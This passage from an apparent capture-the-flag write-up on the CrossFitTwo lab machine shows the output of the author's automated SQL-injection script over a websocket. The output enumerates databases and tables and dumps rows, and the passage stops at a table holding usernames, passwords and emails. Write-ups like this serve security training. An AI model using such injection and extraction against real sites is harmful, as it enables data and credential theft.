 ![First SQLi](/img/htb_img/CrossFitTwo_img/14.png)

First SQLi

I wrote an automated script to exploit this easier and got the following information:

```bash
============================================================
    DATABASE ENUMERATOR VIA WEBSOCKET
============================================================
[*] Enumerating available databases...
[+] Found databases: crossfit, employees

[*] Starting data extraction...

====================
DATABASE: crossfit
====================
[*] Enumerating tables in crossfit...
[+] Found tables: membership_plans

----------------------------------------
TABLE: crossfit.membership_plans
----------------------------------------
[*] Enumerating columns in membership_plans...
[+] Found columns: id, name, base_price, current_price, available

[*] Extracting data from membership_plans...

[+] Data from membership_plans:
============================================================
Columns: id | name | base_price | current_price | available
============================================================
  1: 1 | 1-month | 99.99 | 99.99 | 1
  2: 2 | 3-months | 129.99 | 129.99 | 1
  3: 3 | 6-months | 209.99 | 189.99 | 0
  4: 4 | 1-year | 899.99 | 859.99 | 1

[+] Total rows found: 4

====================
DATABASE: employees
====================
[*] Enumerating tables in employees...
[+] Found tables: employees, password_reset

----------------------------------------
TABLE: employees.employees
----------------------------------------
[*] Enumerating columns in employees...
[+] Found columns: id, username, password, email

[*] Extracting data from employees...

[+] Data from employees:
============================================================
Columns: id | username | password | email
```
